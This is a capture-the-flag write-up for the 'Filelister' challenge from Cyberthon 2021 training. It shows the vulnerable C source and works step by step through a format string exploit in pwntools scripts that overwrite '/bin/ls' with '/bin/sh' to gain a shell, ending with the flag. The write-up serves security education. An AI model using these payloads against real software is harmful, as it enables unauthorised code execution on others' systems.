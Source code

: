# Filelister

---

### Challenge Description

> Okay, after getting pwned three times in a row i've decided enough is enough. I'm just going to let u list files on my system. No shell for you!

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:30301

> Concept(s) Required: Format String exploitation
 
[filelister.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330488/filelister.zip)

---

### Solution

We are told there's a [format string vulerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/#:~:text=A%20format%20string%20vulnerability%20is,the%20format%20argument%20to%20printf%20.).

_i wont be explaining what is format string vulnerability so check it out urself in the link above_

Let's read our source code.

```c
char COMMAND[8] = "/bin/ls\x00";

void shell()
{
    system(COMMAND);
}

int main()
{
    char username[256];
    ... some ascii art ...
    fgets(username, 63, stdin);
    printf("Greetings ");
    printf(username);
    printf("Here are my files!\n");
    shell();
    return 0;
```

As you can see, unlike previous challenges, this one does not have a buffer overflow. Our input is limited. 

But that is not a problem, we can easily exploit this with format string.

What the program does is, it takes in an input and then it calls the `shell()` function which does `system(COMMAND)`

What this does is that it executes `COMMAND` in the system. Since `char COMMAND[8] = "/bin/ls\x00";`

It executes /bin/ls which lists all the files in the current directory.

If we can change `/bin/ls` to `/bin/sh`, we will have ourselves a shell.

Let's find where `/bin/ls` is in the binary in GDB.

![image](https://user-images.githubusercontent.com/76640319/115134357-fc3b5f80-a041-11eb-9ff3-e8c3a7eda507.png)

In this case, we are trying to change only `ls` to `sh`.

Hence we find the address that contains just the last 2 letters.

![image](https://user-images.githubusercontent.com/76640319/115134375-15dca700-a042-11eb-8e15-d665ee889dc5.png)

Got it.

![image](https://user-images.githubusercontent.com/76640319/115134393-3c9add80-a042-11eb-9fce-2d4f307e6ea8.png)

`736c` is actually just `sl` which is `ls` in little endian.

We want to overwrite `736c` with `6873`. 

And to calculate the offset, we can do `0x16873 - 0x736c = 62727`

Now we know where our variable is and what we are going to overwrite it with.

To complete our format string payload, we need to find where our input is as well.

We can send a payload to test the location of our input:

![image](https://user-images.githubusercontent.com/76640319/115134437-9f8c7480-a042-11eb-8b67-91da354d618d.png)

As you can see, on the 6th address, we can see 0x41414141 which is our input AAAA and on the 7th address we can see 0x43434343 which is our input CCCC.

Hence we have our offset which is 6.

Now we can craft our exploit.

We will use `%6$n` to access address at `p64(0x60501d)` and add `62727` to `736c` at that address.

To string it up, it will look something like `p64(0x60501d) + %62727x + %6$n`

![image](https://user-images.githubusercontent.com/76640319/115134794-e9c32500-a045-11eb-802f-425cb042ac88.png)

However, as you can see, it did not work. We are still merely getting a list of our files.

From the output, we can also see that `b'%62727x' + b'%6$n'` is not getting printed out.

![image](https://user-images.githubusercontent.com/76640319/115134831-30b11a80-a046-11eb-971e-51aeebb74532.png)

As we can see, `p64(0x60501d)` has a null byte which stops reading everythinf after it. Hence our payload is being ignored.

How do we solve this? We can move p64(0x60501d) to the end of our payload.

`'%62727x' + '%6$n' + p64(0x60501d)`

However, if you we send this as our payload, you will get a segfault because `%6$n` will try to access the address `'%62727x'` which does not exist.

If you remember our previous payload where we sent `AAAABBBBCCCC.%x.%x.%x.%x.%x...` which gave us an output of `...41414141.43434343...`, it is apparent that our format string will only read the upper 4 bytes of every 8 bytes sent.

Hence if we do some math, we add some padding to ensure that the correct address is being read.

To help you visualize, the inputs being read in for `'%62727x' + '%6$n' + p64(0x60501d)` will be `%627 and 6$n + first char of address`

`'%62727x' + '%6$n' + 'CCCCC' + p64(0x60501d)` will have `%627, 6$nC,, address` read. Our new input offset is 8.

`'%62727x' + '%8$n' + p64(0x60501d)`. If you try this new payload, you will segfault. Perhaps our offset to change `736c to 6873` is wrong.

Let's have a look at what is actually in the address at 0x60501d during runtime with gdb.

```py
from pwn import *
p = process('./filelister')
gdb.attach(p,gdbscript='b *main+249') # breaks after printf calls, after our payload is sent
payload = b'aaaaaaa' + b'%8$n'+ b'CCCCC'+ p64(0x60105d) # we empty out our offset to have a look at the address in p64(0x60105d) without overwriting it
p.sendline(payload)
p.interactive()
```

![image](https://user-images.githubusercontent.com/76640319/115135280-082b1f80-a04a-11eb-84ff-1f78df4613ed.png)

We send continue to gdb to let it continue running our script. We will break after printf.

Next, we examine the value at 0x60105d.

![image](https://user-images.githubusercontent.com/76640319/115135295-2133d080-a04a-11eb-924f-caf69699287a.png)

Oh. It holds 0x7 at runtime.

Hence our offset should be `0x6873 - 0x7 = 26732`

We fire our exploit script.

```py
from pwn import *
p = process('./filelister')
gdb.attach(p,gdbscript='b *main+249') # breaks after printf calls, after our payload is sent
payload = b'%26732x' + b'%8$n'+ b'CCCCC'+ p64(0x60105d) # we empty out our offset to have a look at the address in p64(0x60105d) without overwriting it
p.sendline(payload)
p.interactive()
```

We segfault once again and we analyse p64(0x60105d) in gdb.

![image](https://user-images.githubusercontent.com/76640319/115135392-bc2caa80-a04a-11eb-9f12-374e00684465.png)

We see that the address is wrong. And we correct it by adding `0x6873 - 0x686c = 7` into our offset.

```py
from pwn import *
p = process('./filelister')
gdb.attach(p,gdbscript='b *main+249') # breaks after printf calls, after our payload is sent
payload = b'%26739x' + b'%8$n'+ b'CCCCC'+ p64(0x60105d) # we empty out our offset to have a look at the address in p64(0x60105d) without overwriting it
p.sendline(payload)
p.interactive()
```

We segfault again.

We analyse in gdb again;

![image](https://user-images.githubusercontent.com/76640319/115135425-f39b5700-a04a-11eb-8a59-6ef9e4a703b1.png)

Our address is correct. Perhaps theres some problems with running it locally.

We fire our script at the server. 🔥

```py
from pwn import *
#p = process('./filelister')
p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30301)
#gdb.attach(p,gdbscript='b *main+249') # breaks after printf calls, after our payload is sent
payload = b'%26739x' + b'%8$n'+ b'CCCCC'+ p64(0x60105d) # we empty out our offset to have a look at the address in p64(0x60105d) without overwriting it
p.sendline(payload)
p.interactive()
```

![image](https://user-images.githubusercontent.com/76640319/115135515-a370c480-a04b-11eb-943a-8f08c85bab02.png)

Success! Such problems where exploit scripts work remotely but not locally vice versa is quite common in CTFs so we js deal with it 😙

```
CTFSG{f1l3l15t3r_m0r3_l1k3_sh3ll_pr0v1d3r}
```

---

### Food for thought

While learning to do formal string attacks manually is important and 100% necessary for you to understand how it works, are there faster ways or tools to automate this?

Here was my revised script after doing it manually:

```py
p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30301)
offset = 6
payload = fmtstr_payload(offset, {0x60105d:0x6873})
p.sendline(payload)
p.clean()
p.interactive()
```
